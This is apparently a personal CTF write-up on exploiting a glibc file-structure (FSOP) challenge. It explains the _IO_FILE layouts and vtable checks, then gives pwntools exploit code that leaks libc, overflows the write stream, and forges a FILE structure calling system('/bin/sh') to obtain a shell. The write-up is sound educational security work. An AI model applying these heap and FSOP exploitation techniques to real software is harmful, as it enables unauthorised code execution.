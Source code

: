 This challenge was tough since I have not really touched on anything FSOP related outside of House of Orange, but it was for sure a great learning experience. I will say this out of the gate, I did not solve this challenge during the CTF but instead I continued to work on it for over the course of two weeks since to be honest there was a lot to learn.

To first understand how to solve this challenge, I will have to explain what file structures are. From what I understand and what I learned through debugging the heap memory, file structures are mostly here so whatever changes I do to the file that I wish to open will happen in heap memory first and once you call `fclose()` on the file pointer, then it will write to the disk. This is done because in C they legit only care about speed and nothing else, so that is good for us.

Now how FSOP works takes advantage of the `__IO_FILE_plus` struct that is used when working with file structures. The struct looks like this:

``` c
struct _IO_FILE_plus
{
  FILE file;
  const struct _IO_jump_t *vtable;
};
```

The real point of focus is the `vtable` at the end. Luckily, I already knew what a `vtable` was thanks to one of the challenges in the [pwnable.kr](https://pwnable.kr) website that I solved a little while back. In that challenge, from what I remember, I had to exploit a use-after-free bug in a C++ program that used objects. The way `vtables` are used in C++ is basically a lookup table for functions for each object, so for example multiple instances of a class will actually end up calling the same function addresses. And in this case the `vtable` pointer is the same way. Only problem though (and why the House of Orange only works on GLIBC 2.23 and below), the `vtable` pointer has to be within some adresses. Because of that, we cannot create our own `vtable` and instead we must play around with misaligning the vtable that we have and to try to find something that is modifyable by using [Angry FSROP](https://blog.kylebot.net/2022/10/22/angry-FSROP/). Also here is the layout of the `_IO_FILE` structure for future reference (since this will show up in the heap):

``` c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
```

Now with this knowledge, we will be able to solve this challenge. Also I took these structures from [here](https://niftic.ca/posts/fsop/).

The challenge calls `fread()` and `fwrite()` on different options and has an obvious buffer overflow that will let us overwrite both file structures for the read and write. Also everything is green except for PIE, so what I did was leak LIBC by reading the address of `stdout` in the `.bss` region by changing the pointer of the read file structure. I also leaked the stack but I didn't need it:

``` python
    leak = read_addr(io, 0x404010)
    libc = int.from_bytes(leak, "little") - l.sym["_IO_2_1_stdout_"] 

    print(f"============= Libc leak: {hex(libc)}")
    
    leak = read_addr(io, l.sym["environ"] + libc)
    stack = int.from_bytes(leak, "little") 

    print(f"============= Stack leak: {hex(stack)}")
```

Next I  overwrote (is that how you say it??) the write file structure to point to libc's `_IO_2_1_stdout_`:

``` python
    # buf base and buf end overflow on the write stream 
    payload = b"A"*0x28 + p64(0x1e1) + b"B"*0x1d8 + p64(0x1e1) 
    payload += p64(0xfbad2c84)
    payload += p64(l.sym["_IO_2_1_stdout_"] + libc)
    payload += p64(0) * 5
    payload += p64(l.sym["_IO_2_1_stdout_"] + libc)
    payload += p64(l.sym["_IO_2_1_stdout_"] + libc + 0x200)
    
    write_script(io, b"balls")
    set_name(io, payload)
```

Then I created a fake file structure while changing the `vtable` pointer to what angry-fsrop said:
``` python 
# create a fake file struct to use when calling the write stream
    file = FileStructure(0)
    file.flags = 0x3b01010101010101
    file._IO_read_end = l.sym["system"] + libc
    file._IO_save_base = libc + 0x163830 # one gadget
    file._IO_write_end = u64(b"/bin/sh\x00")
    file._lock = libc + 0x21ba70
    file._codecvt = l.sym["_IO_2_1_stdout_"] + libc + 0xb8
    file._wide_data = l.sym["_IO_2_1_stdout_"] + libc + 0x200
    
    # modify the address of the vtable
    file.unknown2 = p64(0)*2 + p64(l.sym["_IO_2_1_stdout_"] + libc + 0x20) + p64(0)*3 + p64(l.sym["_IO_wfile_jumps"] + libc - 0x18) 

    #write_script(io, bytes(file))
    sla(io, b"Choice:", b"2")
    io.sendline(bytes(file))
```

And just like that, I have shell!!!! (WOOHOO, this was a pain!!!!)
